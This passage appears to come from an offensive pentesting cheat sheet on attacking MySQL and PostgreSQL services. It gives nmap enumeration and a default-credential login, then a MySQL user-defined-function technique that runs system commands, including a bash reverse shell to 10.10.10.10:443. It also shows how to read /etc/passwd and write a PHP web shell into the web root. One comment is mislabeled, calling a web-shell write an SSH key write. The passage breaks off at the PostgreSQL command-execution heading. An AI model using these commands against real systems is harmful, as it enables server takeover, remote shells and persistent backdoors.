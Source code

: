 ### MySQL (Port 3306)

#### MySQL Enumeration

```bash
# Basic scan
nmap -sV -p 3306 --script=mysql-* target.com

# Login with default credentials
mysql -h target.com -u root -p
```

#### MySQL Command Execution

```sql
-- Check if FILE privilege is granted
SELECT file_priv FROM mysql.user WHERE user = 'root';

-- Execute commands with User Defined Functions (UDF)
USE mysql;
CREATE TABLE hack(line BLOB);
INSERT INTO hack VALUES(LOAD_FILE('/tmp/lib_mysqludf_sys.so'));
SELECT * FROM hack INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';
CREATE FUNCTION sys_exec RETURNS INT SONAME 'lib_mysqludf_sys.so';
SELECT sys_exec('id > /tmp/out; chown mysql:mysql /tmp/out');
SELECT sys_exec('bash -c "bash -i >& /dev/tcp/10.10.10.10/443 0>&1"');
```

#### MySQL File Operations

```sql
-- Reading files
SELECT LOAD_FILE('/etc/passwd');

-- Writing files (requires FILE privilege)
SELECT 'webshell content' INTO OUTFILE '/var/www/html/shell.php';

-- Write SSH authorized_keys
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/cmd.php';
```

### PostgreSQL (Port 5432)

#### PostgreSQL Enumeration

```bash
# Basic scan
nmap -sV -p 5432 --script=pgsql-* target.com

# Connect to PostgreSQL
psql -h target.com -U postgres -W
```

#### PostgreSQL Command Execution
